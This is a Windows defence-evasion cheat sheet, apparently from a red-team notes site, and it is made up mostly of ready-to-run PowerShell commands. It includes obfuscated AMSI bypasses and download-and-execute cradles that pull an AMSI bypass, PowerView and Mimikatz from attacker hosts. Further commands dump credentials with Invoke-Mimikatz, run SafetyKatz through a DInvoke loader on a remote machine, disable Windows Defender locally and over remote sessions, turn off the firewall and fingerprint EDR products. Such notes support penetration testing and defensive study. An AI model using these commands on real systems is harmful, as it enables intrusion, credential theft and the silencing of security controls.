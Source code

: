 ```yaml
---
layout: post
title: evasion / win
category: 03-evasion
parent: cheatsheets
modified_date: 2024-12-08
permalink: evasion/win
---
```


**Mitre Att&ck Entreprise**: [TA0005 - Defense Evasion](https://attack.mitre.org/tactics/TA0005/)

**Menu**
<!-- vscode-markdown-toc -->
* [amsi](#amsi)
* [applocker](#applocker)
* [download](#download)
* [dinvoke](#dinvoke)
* [edr](#edr)
* [powershell](#powershell)
* [windows-defender](#windows-defender)
* [windows-firewall](#windows-firewall)
* [S3cur3Th1sSh1t](#S3cur3Th1sSh1t)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

**Tools**

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/TheWover/DInvoke","https://api.github.com/repos/anonymous300502/Nuke-AMSI","https://api.github.com/repos/OmerYa/Invisi-Shell","https://api.github.com/repos/PwnDexter/Invoke-EDRChecker"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>_repo</th><th>_last_push</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

## <a name='amsi'></a>amsi 
```powershell
# amsi evasion # local # 01
# https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# amsi evasion # local # 02
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') +
('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ;
(
Get-
varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"((
"{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f
'.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f
'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"(
( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f
'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}"
-f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

# amsi evasion # rshell # 01
iex (iwr http://$ztarg_computer_ip/amsibypass.txt -UseBasicParsing)
iex ((New-Object Net.WebClient).DownloadString('http://'$ztarg_computer_ip'/PowerView.ps1'))
```

- [amsi.fails](https://amsi.fails)
- [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [notes.offsec-journey.com](https://notes.offsec-journey.com/evasion/amsi-bypass)

## <a name='applocker'></a>applocker
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## <a name='download'></a>download
```sh
# lolbas mpcmdrun.exe 
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path>

# download fuzzed mimikatz
(New-Object Net.WebClient).DownloadString('http://10.1.3.40/mimi/mimikatz.ps1'); Invoke-Dummy  -DumpEvenMoreDummy)

# 
$r=New-Object System.Net.WebClient;$r.DownloadFile('http://10.1.3.40/mimi/mimi.zip', 'c:\temp\mimi.zip')

# run mimikartz into memory
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```

## <a name='dinvoke'></a>dinvoke
<iframe width="727" height="409" src="https://www.youtube.com/embed/FuxpMXTgV9s" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

```powershell
# download dinvoke on a host 
iwr http://$zlat_computer_ip/Loader.exe -OutFile C:\Users\Public\Loader.exe

# upload dinvoke on a remote host 
echo F | xcopy C:\Users\Public\Loader.exe \\$ztarg_computer_ip\C$\Users\Public\Loader.exe

# execute safekatz via dinvoke 
C:\Users\Public\Loader.exe -path http://$zlat_computer_ip/SafetyKatz.exe -Args %Pwn% exit

# execute safekatz via dinvoke, http callback proxied on localhost  
$null |winrs -r:$ztarg_computer_name "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=$zlat_computer_ip"
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -Args %Pwn% exit
```

## <a name='edr'></a>edr
```powershell
Invoke-EDRChecker

# crowdstrike falcon
Get-Service | Where-Object{$_.DisplayName -like "*falcon*"}

# palo cortex xdr 
cd "C:\Program Files\Palo Alto Networks\Traps"
./cytool.exe
dir HKLM:\SYSTEM\CurrentControlSet\Services\CryptSvc
```

## <a name='powershell'></a>powershell
```powershell
# powershell execution protection bypass
powershell -ep bypass

# powershell fullLanguage / Constrained language mode
# https://seyptoo.github.io/clm-applocker/
$Env:__PSLockdownPolicy
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy /t REG_SZ /d ConstrainedLanguage /f
/v fDenyTSConnections /t REG_DWORD /d 1 /f
$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode ConstrainedLanguage

# https://github.com/OmerYa/Invisi-Shell
# bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies
RunWithRegistryNonAdmin.bat
```

## <a name='windows-defender'></a>windows-defender
```powershell
# disable windows defender
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true

# disable windows defender remotely via pssession
$sess = New-PSSession -ComputerName $ztarg_computer_fqdn
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-command -ScriptBlock{Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess

# set local proxy redirection 
$null | winrs -r:$ztarg_computer_name "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=$zlat_computer_ip"
```

## <a name='windows-firewall'></a>windows-firewall
```powershell
# windows firewall showing / disabling config 
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles
```

## <a name='S3cur3Th1sSh1t'></a>S3cur3Th1sSh1t
<iframe width="727" height="409" src="https://www.youtube.com/embed/_sPM9Er_194" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
